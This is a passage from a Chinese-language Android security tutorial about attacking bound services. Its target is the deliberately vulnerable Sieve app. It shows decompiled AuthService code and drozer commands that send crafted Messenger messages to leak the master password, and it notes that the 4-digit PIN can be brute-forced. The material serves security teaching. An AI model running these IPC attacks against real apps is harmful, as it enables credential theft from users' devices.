                         else if(msg.arg1 == v7) {
    //Set Pin Requires Current Pin from Bundle
                            v1 = 41;
                            v3 = AuthService.this.setPin(((Bundle)v2).getString("com.mwr.example.sieve.PIN"))
                                     ? 0 : 1;
                        }
                        else {
                            goto label_99;
                        }
    
                        this.sendResponseMessage(4, v1, v3, v8);
                        return;
    

AuthService根据传入Message对象的不同，执行不同的动作，注意当Message对象的what为2354，arg1为9234时，如果当前的PIN正确，则可返回Sieve使用的主password。Drozer提供了app.service.send模块，利用该模块可以很方便地测试基于Messenger的跨进程通信。

    
    
    #!bash
    dz> run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg 2354 9234 0 --extra string com.mwr.example.sieve.PIN 1234 --bundle-as-obj
    Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.AuthService:
      what: 5
      arg1: 41
      arg2: 0
      Extras
        com.mwr.example.sieve.PASSWORD (String) : passw0rd123123123
    

如果PIN不正确，则只返回当前传入的PIN

    
    
    #!bash
    dz> run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg 2354 9234 33333 --extra string com.mwr.example.sieve.PIN 2344 --bundle-as-obj
    Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.AuthService:
      what: 5
      arg1: 41
      arg2: 1
      Extras
        com.mwr.example.sieve.PIN (String) : 2344
    

由于PIN只有4位，利用上述两种结果的不同，可以编写程序进行爆破。另外一个CryptoService同样也有类似的漏洞，通过传入特定的Message对象，执行加解密操作，可被用来解密password，详见【3】。

# 0x03 攻击基于AIDL的Bound Service

* * *

文献【1】给出了一个存在命令执行漏洞的Bound Service，并根据Bound Service的apk生成AIDL接口文件，编写攻击程序调用Bound Service中的命令执行方法。然而，在使用中发现生成AIDL文件的工具主要根据smali文件中的Stub.Proxy类进行抓取，而当apk进行了混淆，便不能正确生成AIDL文件了。例如，我们配置build.gradle中的minifyEnabledtrue开关为true，使用Android Studio的默认混淆规则。对混淆的apk与未混淆的apk使用JEB逆向对比如下

![image](http://static.wooyun.org//drops/20160311/2016031110111067893118.png)
